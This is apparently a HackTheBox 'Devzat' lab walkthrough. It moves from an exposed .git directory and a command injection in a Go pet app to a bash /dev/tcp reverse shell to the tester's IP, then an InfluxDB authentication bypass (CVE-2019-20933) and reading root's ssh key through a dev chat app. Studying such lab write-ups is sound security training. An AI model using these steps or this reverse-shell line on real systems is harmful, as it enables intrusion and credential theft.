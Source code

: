 %title Devzat
%template post
%date 2022-07-26


== Introduction ==

Devzat is a box on HackTheBox that involves heavily exploiting a user created chat app. The chat app
does not seem to be usable for initial exploitation. However, after initial access, the app becomes
a great source of system enumeration from the chat logs, as well as being able to be used to privesc
to root. The initial access is gained from a subdomain hosting an incomplete CRUD app for managing
an inventory of pets that has the .git directory publicly available. With access to the git folder,
we can get the source for the web app and discover a command injection vulnerability that can be
exploited with Burpsuite. Initial access as Patrick allows us to read his chat logs, revealing an
Influxdb instance is running that is vulnerable to an authentication bypass. The database contains
credentials for another user, Catherine, who we are then able to login as. Catherine's chat log
reveals there is a development version of the chat app running on port 8443, and there is a backup
file on the system. Analysis of the backed up files shows we can use app on port 8443 to read files
as root. We can then read roots ssh key to login as root.

== Enumeration ==

=== Nmap ===

From the nmap results, we can see that this is a webserver with an unidentified app on port 8000.
Based on the scan on port 8000, it seems to be using a go library called [[https://github.com/karfield/ssh2go|ssh2go]]

{{{class="nohighlight"
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: devzat - where the devs at
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=7/5%Time=62C472E7%P=x86_64-pc-linux-gnu%r(NUL
SF:L,C,"SSH-2\.0-Go\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/5%OT=22%CT=1%CU=34441%PV=Y%DS=2%DC=T%G=Y%TM=62C47312
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   21.19 ms 10.10.14.1
2   21.28 ms devzat.htb (10.10.11.118)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
}}}

=== Website - [[http://devzat.htb]] ===

Initial scanning shows the box has a website up. Trying to navigate to the website redirects us to
[[http://devzat.htb]]. After updating our /etc/hosts, we are able to see the webpage.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ cat /etc/hosts
...
10.10.14.1    devzat.htb
...
}}}

{{local:../images/devzat/website/homepage.png|http://devzat.htb Homepage}}

Not much about the site itself is interesting. However, there is a message at the bottom informing
the reader that they are invited to try out their chat app.

{{local:../images/devzat/website/chat_app_start_instructions.png|Chat app usage}}

When running the instructed command, you may receive an error about no matching host key type. This
error can be resolved by adding a few lines to ~/.ssh/config

{{{class="nohighlight"
Host devzat.htb
	HostName devzat.htb
	User dev
	PubkeyAcceptedAlgorithms +ssh-rsa
	HostkeyAlgorithms +ssh-rsa
}}}

Then we can run the command to gain access to the chat app

{{local:../images/devzat/chat_app/initial_connection.png|Initial Connection}}

=== Chat App First Look ===

With just the basic level of access we have, there is not much that can be done with the app right
now. We will come back to this at a later point

=== Subdomin - [[http://pets.devzat.htb]] ===

Taking a look back at port 80, since we needed to add an entry to /etc/hosts, it may be worthwhile
to scan for subdomains. We will scan for subdomains using Gobuster.

{{local:../images/devzat/website/pets/gobuster_subdomain_discovery.png|Pets Subdomain Discovery}}

Our scan finds one valid subdomain at [[http://pets.devzat.htb]] The homepage is an incomplete CRUD
app.

{{local:../images/devzat/website/pets/homepage.png|http://pets.devzat.htb Homepage}}

The most that can be done is adding a pet to the pet inventory, but its not hooked up to a database
so nothing saves. Running Gobuster to find other endpoints shows that [[http://pets.devzat.htb/.git/]]
is publicly readable. We can grab the contents of the folder with
[[https://pypi.org/project/git-dumper/|git-dumper]].

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ git-dumper http://pets.devzat.htb/.git pets
...
...
...
trent@TMDeal-kali[Devzat]$ ls -al pets/
total 9776
drwxr-xr-x  5 trent trent    4096 Jul 26 17:44 .
drwxrwxrwt 28 root  root    12288 Jul 26 17:44 ..
drwxr-xr-x  2 trent trent    4096 Jul 26 17:44 characteristics
drwxr-xr-x  7 trent trent    4096 Jul 26 17:44 .git
-rw-r--r--  1 trent trent      25 Jul 26 17:44 .gitignore
-rw-r--r--  1 trent trent      88 Jul 26 17:44 go.mod
-rw-r--r--  1 trent trent     163 Jul 26 17:44 go.sum
-rw-r--r--  1 trent trent    4420 Jul 26 17:44 main.go
-rwxr-xr-x  1 trent trent 9957033 Jul 26 17:44 petshop
-rwxr-xr-x  1 trent trent     123 Jul 26 17:44 start.sh
drwxr-xr-x  4 trent trent    4096 Jul 26 17:44 static
}}}

This is probably the source code for the pets web application. Inside of main.go, there is code that
takes our input without sanitizing it and passes it to `exec.Command`. This means we can inject our
own commands into this command and gain remote code execution

{{local:../images/devzat/git/main_execs_sh.png|Call to exec.Command}}

== Shell as Patrick ==

To test if we can properly execute code, we will just see if we can get the contents of /etc/passwd

{{local:../images/devzat/git/burp_payload.png|Burp Payload}}
{{local:../images/devzat/git/dumping_etc_passwd.png|Contents of /etc/passwd}}

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.

{{local:../images/devzat/git/rce_request.png|Sending the request with Burp}}
{{local:../images/devzat/shell_as_patrick.png|Shell as Patrick}}

From there, we can grab Patrick's ssh key for a better shell experience

{{local:../images/devzat/shell_as_patrick_ssh.png|Shell as Patrick}}

== Shell as Catherine ==

=== Interesting ports ===

After running linpeas, we can see that there are some ports that are open locally that we could not
previously access

{{local:../images/devzat/linpeas/active_ports.png|Open local ports}}

Right now, we do not know what these ports do, so we will look around some more.

=== Patrick Chat Log ===

We can see Patrick's chat log in the chat app by logging into it while logged into the machine as
Patrick

{{local:../images/devzat/patrick_chat_log.png|Patrick chat log}}

Looking up info on Influxdb shows that it runs on port 8086 by default, and is thus likely what we
saw earlier in linpeas. We can check the version of Influxdb running by making a HEAD request with
curl on port 8086

{{local:../images/devzat/influxdb/influxdb_version.png|Influxdb version}}

Looking up "Influxdb 1.7.5" on google shows results for
[[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933|CVE-2019-20933]]. 

With this exploit, we can bypass authentication and gain access to the database as an admin. We need
to port forward with ssh in order to access the database on our machine.

`ssh -L 8086:127.0.0.1:8086 patrick@10.10.11.118 -i patrick_id_rsa`.

{{local:../images/devzat/influxdb/admin_access.png|Login as admin on Influxdb}}

From there, we can dump the data from the users table

{{local:../images/devzat/influxdb/user_passwords.png|Database dump}}

This reveals a few users and their passwords, but Catherine sticks out because that is a user on the
box. Attempting to use this password to switch users to Catherine is successful

{{local:../images/devzat/shell_as_catherine.png|Shell as Catherine}}
{{local:../images/devzat/user_get.png|User flag}}

== Shell as root ==

Now that we are Catherine, lets examine her chat log like we did for Patrick.

{{local:../images/devzat/catherine_chat_log.png|Catherine chat log}}

The chat log mentions the development version of the chat app is up on port 8443, and the source
code is in a backup file. Checking in /var/backup we find archives of the development and main
version.

{{local:../images/devzat/chat_app/backup_files.png|Backup files}}

Extracting and checking the this version of the code shows a new command `file` has been added that
allows reading files on the system. A password is required, but it is hardcoded into the app, so we
can just read it. Since this program is running as root, we can read roots ssh key

{{local:../images/devzat/dev_chat_app/pass_for_reading_files.png|Password to run command}}
{{local:../images/devzat/dev_chat_app/root_ssh_key.png|Reading root ssh key}}

Then we can just ssh as root

{{local:../images/devzat/shell_as_root.png|Shell as root}}
{{local:../images/devzat/root_get.png|Root flag}}

